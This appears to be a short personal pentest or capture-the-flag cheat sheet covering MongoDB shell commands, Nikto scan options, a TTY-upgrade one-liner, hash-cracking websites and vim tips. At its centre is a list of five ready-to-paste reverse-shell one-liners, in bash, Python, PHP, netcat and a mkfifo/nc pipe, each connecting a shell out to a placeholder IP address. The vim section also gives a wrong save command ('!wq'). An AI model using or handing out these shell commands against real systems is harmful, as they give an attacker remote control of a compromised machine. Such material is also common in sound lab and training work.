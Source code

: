 === mongo db cheatsheet ===
```
mongo

command-line:
- show databases // show all databases
- use <nameDatabase> // select a database
- db.getCollectionNames(); //show all collections 
- db.<collectionName.name>.find() //get all contents
```

=== nitko cheatsheet ===
```
nikto -h <url>

options :
-h : url
--nossl : no scan for ssl/tls
-Format : export a report (htm)

```
===[+]tty[+]==== </br>
`python3 -c 'import pty; pty.spawn("/bin/bash");'`

==[+]revShell[+]====

- BASH </br>
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

- Python </br>
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.91.36",8889));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

- PHP </br>
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

- Netcat </br>
`nc -e /bin/sh 10.0.0.1 1234`

- random </br>
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`


====[+] crack the hash [+]======= </br>
- https://crackstation.net
- https://gchq.github.io/CyberChef/
- https://dcode.fr


===vim cheatsheet===
```
press i to go into INSERT MODE,

!wq : save and exit
q

press ESC to quit INSERT MODE, press : 
and start writing
```
